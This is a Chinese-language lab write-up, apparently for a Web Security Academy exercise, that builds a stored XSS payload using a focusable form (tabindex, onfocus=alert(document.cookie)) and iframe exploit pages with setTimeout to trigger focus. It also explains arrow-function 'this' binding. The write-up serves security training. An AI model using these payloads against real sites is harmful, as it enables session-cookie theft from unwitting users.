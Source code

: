 这里的onclick换成onfocus也是可以的。

在XSS里面做过，聚焦的话需要条件。

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

也就是说这里应该要用下面的东西先提交评论。

```html
<form id=x tabindex=-1 onfocus=alert(document.cookie)><input id=attributes>
```

然后把exploit的网站指到form上面。

```html
<iframe src="https://acfa1f9f1eda42cc80fa354b00eb00fb.web-security-academy.net/post?postId=2#x"></iframe>
```

但是用iframe标签打开的时候却不能自动聚焦，去点击的时候反而可以聚焦。

不知道这是为什么。试了好多方法都不行，这里去看了官方的payload。

```html
<iframe src=https://your-lab-id.web-security-academy.net/post?postId=3 onload="setTimeout(someArgument=>this.src=this.src+'#x',500)">
```

官方这里用[延时函数](https://blog.csdn.net/pan_junbiao/article/details/7880523)延迟500ms然后重新触发聚焦。忽然想到这里的comment不是随着网站一起出来的，这里的comment是用js代码加载出来的，也就是说一开始打开网站的时候并没有那个聚焦点，所以要延时500ms。

所以更改自己的payload：

```html
<iframe src="https://acfa1f9f1eda42cc80fa354b00eb00fb.web-security-academy.net/post?postId=2" onload="setTimeout(function() { this.src=this.src+'#x'; }, 2000)"></iframe>
```

然而这样并不行，因为在函数里的this并不是指的iframe，所以无法更改src属性。

所以将匿名函数改成箭头函数。

```html
<iframe src="https://acfa1f9f1eda42cc80fa354b00eb00fb.web-security-academy.net/post?postId=2" onload="setTimeout(()=>this.src=this.src+'#x', 2000)"></iframe>
```

根据[箭头函数](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Functions/Arrow_functions)的特性，它的this指的就是`iframe`了。

> * 箭头函数不会创建自己的`this`,它只会从自己的作用域链的上一层继承`this`。
> * 箭头函数体中的 this 对象，是定义函数时的对象，而不是使用函数时的对象。

结束之后的思考：

1. 这里要是只要出发alert的话，完全可以在iframe那里就触发了。
